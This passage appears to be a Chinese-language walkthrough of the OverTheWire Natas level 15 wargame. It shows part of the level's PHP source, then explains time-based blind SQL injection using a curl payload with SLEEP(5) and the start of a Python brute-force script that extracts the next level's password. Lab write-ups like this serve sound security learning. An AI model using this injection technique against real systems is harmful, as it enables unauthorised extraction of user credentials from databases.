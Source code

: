 ```php
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {}
?>
```

输出内容跟数据库里的数据没有任何关系，就是说这一次的密码不会在网页显示了。

但是它提示了*users*表的结构，还有*password*呢。

这里要用*blind injection*，也就是盲注。

根据[维基百科](https://en.wikipedia.org/wiki/SQL_injection#Blind_SQL_injection)， **Blind SQL injection is used when a web application is vulnerable to an SQL injection but the results of the injection are not visible to the attacker.** 正好符合这里的情况。

盲注分*boolean-based*和*time-based*。

这里是基于时间的，维基百科说盲注是*time-intensive*的，因为它很花时间。

下面的查询（LIKE BINARY是case-sensitive的意思）用时不到一秒

```bash
curl -u natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB \
--get \
-d 'debug' \
--data-urlencode 'username=natas16" AND  IF((SELECT password FROM users WHERE username="natas16") LIKE BINARY "t%", SLEEP(5), 0) -- ' \
http://natas15.natas.labs.overthewire.org/index.php \
| htmlq 'body' | bat -l html
```

所以排除密码以*t*开头的可能性。

而如果换成*T*，用时将大于5秒，从而判断natas16的密码是T开头。

运气不错，接下来向第二个字符推进*Ta*,*Tb*,*...*,*TZ*,*T0*,*T1*,*T...* 直到32个密码字符全部搞定.

可以写一个python脚本来自动执行：

```python
import time
import subprocess
import string

base_command = """
curl -u natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB \
--silent \
--get \
-d 'debug' \
--data-urlencode 'username=natas16" AND  IF((SELECT password FROM users WHERE username="natas16") LIKE BINARY "{0}%", SLEEP(5), 0) -- ' \
http://natas15.natas.labs.overthewire.org/index.php > /dev/null
"""

```